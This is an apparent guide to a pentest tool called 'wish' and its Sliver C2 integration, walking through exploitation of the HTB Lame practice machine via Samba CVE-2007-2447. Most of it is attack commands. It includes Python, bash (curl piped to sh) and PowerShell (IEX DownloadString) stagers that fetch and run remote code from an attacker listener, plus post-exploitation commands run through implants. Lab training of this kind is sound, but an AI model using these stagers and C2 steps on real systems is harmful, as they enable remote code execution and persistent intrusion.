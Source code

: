 # HTB Lame - Sliver C2 Integration Guide

This guide explains how to exploit HTB Lame machine using wish's Sliver C2 integration features.

## Overview

HTB Lame (10.10.10.3) is a Linux machine with Samba 3.0.20 vulnerability (CVE-2007-2447). This guide demonstrates the flow from initial access to post-exploitation using wish and Sliver C2.

## Prerequisites

- wish is installed
- Sliver C2 server is running
- Connected to HTB VPN

## Step 1: Reconnaissance and Scanning

```bash
# Start wish
$ wish

# Set scope
> /scope add 10.10.10.3

# Port scan
> scan 10.10.10.3

# Check Samba vulnerability
> check samba vulnerability on 10.10.10.3
```

## Step 2: Preparing Sliver Stager

Prepare Sliver stager using the new stager command system.

```bash
# Check Sliver C2 status
> /sliver status

# Start stager listener (automatically generates Python stager)
> /sliver stager start --host 10.10.14.2

# Example output:
# 🎯 Stager listener started: stg-abc123
# 📡 URL: http://10.10.14.2:54321
# 
# Default Stager (Python):
# python -c "import urllib2,platform;o=platform.system()+'_'+platform.machine();exec(urllib2.urlopen('http://10.10.14.2:54321/s?o='+o).read())"
```

## Step 3: Exploitation

Exploit the Samba vulnerability to execute the stager.

```bash
# Execute exploit (wish automatically selects appropriate exploit)
> exploit samba on 10.10.10.3

# Or execute manually
> execute on 10.10.10.3: python -c "import urllib2,platform;o=platform.system()+'_'+platform.machine();exec(urllib2.urlopen('http://10.10.14.2:54321/s?o='+o).read())"
```

## Step 4: Post-Exploitation

Once Sliver session is established, perform post-exploitation.

```bash
# Check active implants
> /sliver implants

# Start shell session
> /sliver shell FANCY_TIGER

# Or execute commands directly
> /sliver execute FANCY_TIGER whoami
> /sliver execute FANCY_TIGER id
> /sliver execute FANCY_TIGER cat /root/root.txt
> /sliver execute FANCY_TIGER cat /home/makis/user.txt
```

## Step 5: Using Alternative Stagers

Different types of stagers can be used depending on the environment.

```bash
# Bash stager (when wget is available)
> /sliver stager create stg-abc123 --type bash
# Output: curl -s http://10.10.14.2:54321/s?o=$(uname -s)_$(uname -m) | sh

# PowerShell stager (for Windows environments)
> /sliver stager create stg-abc123 --type powershell
# Output: IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2:54321/s?o=Windows_x64')

# VBS stager (for older Windows environments)
> /sliver stager create stg-abc123 --type vbs
```

## Step 6: Cleanup

```bash
# Stop stager listener
> /sliver stager stop stg-abc123

# Check active listeners
> /sliver stager list

# Record findings
> /findings add CVE-2007-2447: Samba RCE exploited via username map script, gained root access
```

## Stager Command Reference

### Basic Commands

```bash
# Start stager listener (auto-generates default Python stager)
/sliver stager start --host <IP> [--port <port>] [--https]

# Stop stager listener
/sliver stager stop <listener-id>

# List active listeners
/sliver stager list

# Generate specific type of stager
/sliver stager create <listener-id> --type <python|bash|powershell|vbs>
```

### Stager Features

1. **Python Stager (default)**
   - Python 2/3 compatible
   - Environment detection (OS/architecture)
   - In-memory execution

2. **Bash Stager**
   - curl/wget based
   - For Unix/Linux environments

3. **PowerShell Stager**
   - For Windows environments
   - In-memory execution

4. **VBS Stager**
   - For legacy Windows environments
   - File-based execution

## Troubleshooting

### When Stager Doesn't Execute

1. Check network connection
```bash
# Verify connection from target to attacker machine
> /sliver execute TARGET ping -c 1 10.10.14.2
```

2. Check firewall settings
```bash
# Verify stager listener port is open
$ sudo netstat -tlnp | grep 54321
```

3. Try alternative stager type
```bash
# Use Bash stager if Python is not available
> /sliver stager create stg-abc123 --type bash
```

### When Session is Not Established

1. Check Sliver C2 server status
```bash
> /sliver status
```

2. Check error logs
```bash
# Check Sliver server logs
$ sliver-server
[server] > listeners
```

## Summary

The new stager command system in wish makes Sliver C2 integration more intuitive. With a single `/sliver stager start` command, a default Python stager is automatically generated and ready to use. Different types of stagers can be selected based on the environment, making it compatible with various target environments.